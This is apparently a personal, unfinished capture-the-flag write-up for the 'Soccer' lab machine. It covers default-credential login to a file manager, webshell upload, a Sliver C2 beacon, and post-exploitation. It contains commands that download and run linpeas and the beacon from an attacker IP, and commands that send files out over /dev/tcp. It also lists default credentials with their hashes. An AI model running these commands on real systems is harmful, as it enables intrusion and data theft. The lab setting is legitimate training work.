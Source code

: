 # Soccer Writeup

Name: Soccer
Date:  13/06/2023
Difficulty:  Easy
Goals:  

Learnt:
- Try harder ... 
Beyond Root
- Research WAF, Nginx
- Use sliver `portfwd` 

Content Discovery - kicking your balls since the [[Bart-Writeup]]. 2022
![](kickingyourballs.png)

The recon for this box was mostly done on a bad day in 28th March  . Over my lunch I facepalmed very as I thought that I might turn this into a Help-Through to go along with my current finish all the CREST machines while I build momentum. Instead I realised the issue very quickly I had given up on a 301 status code out of having a bad day. So I saw up to the login and thought that is just one self humiliation for the road. This box needs to be completed.

I changed all the ttl in this Repository to TTL as I bothered me.
```bash
find . -type f -name *-Writeup.md | xargs -I {} sed -i 's/ttl/TTL/g' {}
```

If I require the any hints or Writeups I will turn this to a Helped-Through my gut feeling is that in maybe 10 or more boxes and a season of ranked I am going to on the path of solving boxes for breakfast. 

## Recon

The time to live(TTL) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](Screenshots/ping.png)

I seemed concerned by a WAF and created a reading list for the Beyond root section along with Nginxc 
![](possiblewaf.png)

I found the endpoint I just must have had a bad day or something got in the way.
![](meansredirect.png)

And there is further indication that this is the path as we had an upload. Maybe I looked at gobuster presumed that 301 was off limits but feroxbuster found the 200 because it is recursive. Another nailed again the use and check both argument.  
![](thereisalsoanuploaddirectory.png)

![](300theysay.png)

Unvisited - [heroku](https://elements.heroku.com/buttons/skmdimtiaj/tinyfilemanager) Default username/_password_: _admin_/_admin_@123 and user/12345


![](defaultpassword.png)

![](uploadthewebshelltime.png)

## File upload as Website Admin account

Changing directory to upload to a directory we can write to
![](uploadhere.png)

The better place is full controllable directory and actually changing the permission so that it executes
![](betterplaceisthemonkeyplace.png)

![](404monkeyislanding.png)

## Foothold

With a webshell foothold:
![](monkeylandsinFOOTBALL.png)

Silver for the beyond root...
```go
mtls -L 10.10.14.106 -l 6969
generate beacon --mtls 10.10.14.106:6969 --arch amd64 --os linux --save /home/kali/Soccer/
upx CONFUSED_FIGURINE
```

Commands ran
```bash
# Persistence and automatic exfiltrating recon while i manually enumerate box
mount | grep shm
which curl
cd /dev/shm
curl http://10.10.14.106:8443/linpeas.sh -o linpeas.sh
curl http://10.10.14.106:8443/CONFUSED_FIGURINE -o CONFUSED_FIGURINE
chmod *
nohup bash -c "./linpeas.sh 1> /dev/tcp/10.10.14.106/6996" &
# on kali
# nc -lvnp 6698 > linpeas.out 
nohup ./CONFUSED_FIGURINE &
# Back to the shadow sysadmin
nohup bash -c "cat tinyfilemanager.php > /dev/tcp/10.10.14.106/6996" &
```

From the tiny file manager for the trinkets
`'admin' => '$2y$10$/K.hjNr84lLNDt8fTXjoI.DBp6PpeyoJ.mGwrrLuCZfAwfSAGqhOW', //admin@123`
`'user' => '$2y$10$Fg6Dz8oH9fPoZ2jJan5tZuv6Z4Kp7avtQ9bDfrdRntXtPeiMAZyGO' //12345`

There are soc-player.soccer.htb
![](etchosts.png)

and 
![1080](weirdportsonlocalhost.png)



![](playerisnotmuch.png)

## Back to burp

![](morepages.png)

Signing up will grant tickets
![](getthetickets.png)


Created an account called admin1 and signed in as well as use the previous password with the admin account from the first site.
![](webothgetthesameticket.png)
We get the same ticket...
![](somekindofjson.png)

WE are getting web socket messages, which is odd. Nuclei found that we are using express, so node.js RCE ni the json is a possible path. I decided to enumerate to find this soc-player as a directory 

/etc/nginx contains
- sites-available 

![](proxyon3000.png)

[Hacktricks -nginx](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/nginx)


https://github.com/stark0de/nginxpwner has a docker image
```bash
git clone https://github.com/stark0de/nginxpwner
cd nginxpwner
sudo docker build -t nginxpwner:latest .
# Run
sudo docker run -it nginxpwner:latest /bin/bash
```
There is  also [gixy](https://github.com/yandex/gixy), but given Kali 3.X and python and this is also not a maintained Kali package I would recommend the above.

```bash
www-data@soccer:/etc/nginx$ cat nginx.conf > /dev/tcp/10.10.14.106/6996
```

DevOps Cheatsheats!
https://lzone.de/cheat-sheet/nginx


## PrivEsc


## Beyond Root

https://github.com/BishopFox/sliver/wiki/Port-Forwarding

https://www.ibm.com/docs/en/aspera-fasp-proxy/1.4?topic=proxy-forward-firewall-configuration
https://certitude.consulting/blog/en/bypassing-web-application-firewalls/
https://snyk.io/test/docker/nginx%3A1.18.0
https://github.com/lobuhi/byp4xx